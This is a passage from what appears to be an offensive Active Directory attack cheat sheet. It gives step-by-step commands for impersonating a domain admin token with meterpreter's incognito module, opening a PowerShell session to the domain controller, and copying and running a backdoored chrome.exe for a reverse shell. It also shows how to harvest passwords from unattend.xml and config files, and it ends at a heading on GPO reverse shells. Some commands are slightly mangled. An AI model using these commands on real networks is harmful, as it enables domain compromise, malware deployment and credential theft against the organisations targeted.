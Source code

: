 ```
use incognito
list_tokens -u
```

the previous command lists all the current tokens of those who logged in before to the machine. The goal is to find a token belonged to the admin of domain controller. Once we impersonate the admin token on the domain controller, we need to establish a new session with powershell for complete access. For this we need the hostname of the current domain controller. We type in meterpreter ‘shell’ to convert to ‘shell’ on the windows

```
<C:\Windows\system32>nslookup>
<set type=all
< _ldap._tcp.dc._msdcs.sandbox.local
```

This will result in the hostname of the domain controller Establishing new session

```
<dsesh = New-PSSession -Computer SANDBOXDC>
<Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}>
```

Then we transfer a malicious executable created with #shelter to the domain controller

```
Copy-Item "C:\Users\Public\chrome.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
```

In the above case, the malicious file was binded to chrome.exe Then we execute it

```
Invoke-Command -Session $dcsesh -ScriptBlock {C:\Users\Public\chrome.exe}
```

And we will receive the reverse connection in our listener.

```
<impersonate_token pentesting.local\\Administrator>
```

### Harvesting passwords by viewing the unattend.xml file and sysprep.xml – sysprep.inf

```powershell
From Powershell, Execute
<PS C:\Get-Content "c:\windows\panther\unattend.xml" | Select-String "Password" -Context 2>
```

### Harvesting passwords by looking through common file extensions that store passwords

```
<C:\findstr /si password *.xml *.ini *.txt *.config *.bat>
```

### Creating GPO policy to execute powershell reverse shell on a target pc within domain controller:
